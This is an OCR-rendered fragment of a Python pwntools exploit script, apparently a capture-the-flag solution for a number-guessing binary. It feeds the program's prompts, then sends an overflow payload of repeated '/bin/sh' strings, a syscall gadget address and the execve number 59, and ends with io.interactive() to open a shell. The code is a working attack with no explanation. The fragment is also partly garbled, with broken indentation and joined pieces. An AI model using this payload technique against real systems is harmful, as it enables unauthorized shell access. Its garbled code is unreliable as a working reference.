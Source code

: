             if delCount > delCountMax:

                delCountMax = delCount

                suggestedNum = inputStr

            if delCount == delCountMax:

                if suggestedNum == '' or int(suggestedNum) > int(inputStr):

                suggestedNum = inputStr

    # print(inputStr+'-----'+str(delCount)+'-----'+str(delCountMax)+'-----'+suggestedNum)

    return suggestedNum





    io.recvuntil("PLEASE INPUT A NUMBER:")

    io.sendline(str(1717986918))

    io.recvuntil("PLEASE INPUT A NUMBER:")

    io.sendline(str(1234))

    io.recvuntil("YOU HAVE SEVEN CHANCES TO GUESS")

    guessTrainner()

    io.recvuntil("AGAIN OR EXIT?")

    io.sendline("exit")

    io.recvuntil("EXIT")

    #gdb.attach(io)

    io.sendline(str(4))



    io.recvuntil("ARE YOU SURE?")

    #gdb.attach(io)

    syscall = 0x47cf05

    binsh = 0xc0000be000



    payload = b'/bin/sh\x00'*0x8c + p64(syscall) + p64(0) + p64(59) + p64(binsh) + p64(0) + p64(0)

    io.sendline(payload)

    io.interactive()



    #494B0F

